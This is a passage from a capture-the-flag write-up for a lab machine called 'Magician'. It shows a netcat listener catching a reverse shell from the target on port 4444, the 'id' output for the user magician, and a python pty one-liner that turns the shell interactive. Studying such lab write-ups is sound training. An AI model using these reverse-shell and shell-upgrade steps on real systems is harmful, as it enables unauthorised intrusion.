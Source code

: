 ![Untitled](Magician%20images/Untitled%203.png)

# Gain Access → Get user flag

After successful upload, I get connect to the target machine:

```tsx
listening on [any] 4444 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.221.10] 37866
id
uid=1000(magician) gid=1000(magician) groups=1000(magician)
```

Use `python` with `pty` to implement shell interactive

```tsx
python3 -c "import pty;pty.spawn('/bin/sh')"
sh-4.4$ 
```

